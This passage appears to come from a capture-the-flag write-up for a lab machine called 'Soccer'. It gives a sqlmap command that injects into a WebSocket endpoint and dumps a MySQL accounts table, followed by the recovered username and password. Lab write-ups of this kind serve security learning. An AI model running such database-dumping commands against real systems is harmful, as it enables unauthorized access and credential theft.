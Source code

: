 ![image.png](image%2032.png)

**Dump credential soccer_db**

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

![image.png](image%2033.png)

**LFG!!!!!!!!**

So credential is username:player, password:PlayerOftheMatch2022

![image.png](image%2034.png)
